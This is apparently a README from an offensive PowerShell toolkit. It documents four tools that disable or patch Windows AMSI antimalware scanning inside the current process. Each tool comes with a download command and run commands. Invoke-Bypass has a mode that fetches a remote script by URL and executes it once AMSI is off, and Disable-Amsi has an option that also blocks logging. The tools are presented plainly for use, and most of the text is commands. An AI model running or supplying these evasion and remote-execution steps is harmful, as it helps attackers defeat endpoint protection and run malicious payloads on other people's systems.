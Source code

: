 ## AMSBP.ps1

|Function name|Description|Privileges|Notes|
|---|---|---|---|
|AMSBP|Disable AMSI within current process|User Land|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/AMSBP.ps1" -OutFile "AMSBP.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\AMSBP.ps1" -Force
AMSBP
```

<br />

## Disable-Amsi.ps1
   
|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Disable-Amsi|disable AMSI within current process using well<br />known techniques laid out in an unsignatured way</i></b>|User Land|3 bypass technics available (auto-sellection)<br />[Disable-Amsi cmdlet Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.png)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Disable-Amsi.ps1" -OutFile "Disable-Amsi.ps1"
```

<br />

**execute:**
```powershell
Import-Module -Name ".\Disable-Amsi.ps1" -Force
Disable-Amsi -DontDisableBlockLogging "true"
```   

<br />

## Invoke-Bypass.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-Bypass|disable AMSI within current process + exec script through bypass?|User Land|4 bypass technics available (manual)|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/Invoke-Bypass.ps1" -OutFile "Invoke-Bypass.ps1"
```

<br />

**prerequisites:**
```
-filepath 'string' only accepts .ps1 .bat .vbs file formats
-payloadurl 'string' only accepts .ps1 .bat .vbs file formats
```
<br />

**execute:**
```powershell
Get-Help .\Invoke-Bypass.ps1 -full
.\Invoke-Bypass.ps1 -list "technic"
.\Invoke-Bypass.ps1 -technic "1"
.\Invoke-Bypass.ps1 -technic "2" -filepath "payload.ps1"
.\Invoke-Bypass.ps1 -technic "3" -filepath "payload.ps1" -fileargs "-action 'true'"
.\Invoke-Bypass.ps1 -technic "2" -payloadUrl "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/sysinfo.ps1" -fileargs "-sysinfo enum"
```   

<br />

## ScanInterception.ps1
   
|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[ScanInterception](https://github.com/r00t-3xp10it/redpill/blob/main/lib/Ams1-Bypass/ScanInterception.ps1)|Unchain AMSI by patching the provider’s unmonitored memory space|User Land|Available for x64 bytes only|

<br />

**downloadcmdLet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Ams1-Bypass/ScanInterception.ps1" -OutFile "ScanInterception.ps1"
```

<br />

**execute:**
```powershell
#Test detection
amsiutils

#Patch amsi scan function
.\ScanInterception.ps1

#Test detection
amsiutils
```   
